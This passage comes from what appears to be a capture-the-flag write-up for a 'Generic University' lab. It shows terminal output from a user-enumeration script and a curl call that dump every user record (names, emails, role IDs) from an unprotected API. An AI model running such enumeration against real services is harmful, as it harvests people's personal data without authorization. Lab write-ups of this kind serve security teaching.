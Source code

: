 ```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Generic-University)-[2023.02.21|21:26:10(HKT)]
└> python3 api_users_enumeration.py
[+] Found valid user ID: 2
[+] user ID 2 data: {"id":2,"name":"Barbara Bauch","email":"pabshire@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 1
[+] user ID 1 data: {"id":1,"name":"Javon Moen","email":"johnathon71@rolfson.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 5
[+] user ID 5 data: {"id":5,"name":"Taya Kohler","email":"hspinka@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 4
[+] user ID 4 data: {"id":4,"name":"Jalon Fisher","email":"tmiller@hotmail.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 3
[+] user ID 3 data: {"id":3,"name":"Muriel Mante","email":"jgerlach@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2}
[+] Found valid user ID: 6
[+] user ID 6 data: {"id":6,"name":"IT Nicola Langworth","email":"laura97@douglas.net","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":1}
[+] Found valid user ID: 7
[+] user ID 7 data: {"id":7,"name":"Dr Judge Klein","email":"milo.goyette@medhurst.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":3}
```

We successfully enumerated all users!

> Note: We can also use the API endpoint `/api/users` to list all users.

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Generic-University)-[2023.02.22|13:32:53(HKT)]
└> curl http://generic-university.thm/api/users  
[{"id":1,"name":"Javon Moen","email":"johnathon71@rolfson.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":2,"name":"Barbara Bauch","email":"pabshire@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":3,"name":"Muriel Mante","email":"jgerlach@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":4,"name":"Jalon Fisher","email":"tmiller@hotmail.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":5,"name":"Taya Kohler","email":"hspinka@yahoo.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":2},{"id":6,"name":"IT Nicola Langworth","email":"laura97@douglas.net","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":1},{"id":7,"name":"Dr Judge Klein","email":"milo.goyette@medhurst.com","email_verified_at":null,"created_at":"2022-04-06T09:34:55.000000Z","updated_at":"2022-04-06T09:34:55.000000Z","role_id":3}]
```
